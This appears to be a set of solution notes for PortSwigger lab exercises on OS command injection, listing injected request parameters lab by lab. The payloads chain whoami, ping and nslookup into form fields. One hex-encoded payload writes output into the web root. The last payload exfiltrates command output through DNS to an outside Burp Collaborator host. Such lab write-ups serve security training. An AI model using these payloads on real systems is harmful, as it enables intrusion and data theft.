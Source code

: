 ### Lab: OS command injection, simple case

productId=2&storeId=1%3bwhoami

productId=2&storeId=1%26whoami

### Lab: Blind OS command injection with time delays

csrf=AYzHLaaNvV728ZkzmBurd35Y0IrwA1fm&name=asd&email=asd%40asd.com||ping+-c+10+127.0.0.1||&subject=asd&message=asd

### Lab: Blind OS command injection with output redirection

csrf=pledvhAi6eZf5pfoQJC3ieqP8xcEbxWV&name=asd&email=asd%40asd.com||%77%68%6f%61%6d%69%20%3e%20%2f%76%61%72%2f%77%77%77%2f%69%6d%61%67%65%73%2f%70%77%6e%2e%74%78%74||&subject=asd&message=asd

csrf=pledvhAi6eZf5pfoQJC3ieqP8xcEbxWV&name=asd&email=asd%40asd.com||whoami+>+/var/www/images/pwn2.txt||&subject=asd&message=asd

### Lab: Blind OS command injection with out-of-band interaction

csrf=tdKZU24PNnwsOHfWnbnvw63hCzE8RzPy&name=asd&email=asd%40asd.com||nslookup+in9xa9tupw8ma5bein2s1epuolubi0.burpcollaborator.net||&subject=asd&message=asd

https://notsosecure.com/out-band-exploitation-oob-cheatsheet

https://www.gb-advisors.com/out-of-band-vulnerabilities-what-are-they-and-how-can-be-prevented/#

https://portswigger.net/kb/issues/00100a00_out-of-band-resource-load-http

https://portswigger.net/burp/application-security-testing/oast

### Lab: Blind OS command injection with out-of-band data exfiltration

csrf=P2umQWDhEafmDNykWnGsE8mIfjyHD3LA&name=asd&email=asd%40asd.com||nslookup+`whoami`.lzo0mc5x1zkpm8nhuqevdh1x0o6fu4.burpcollaborator.net||&subject=asd&message=asd
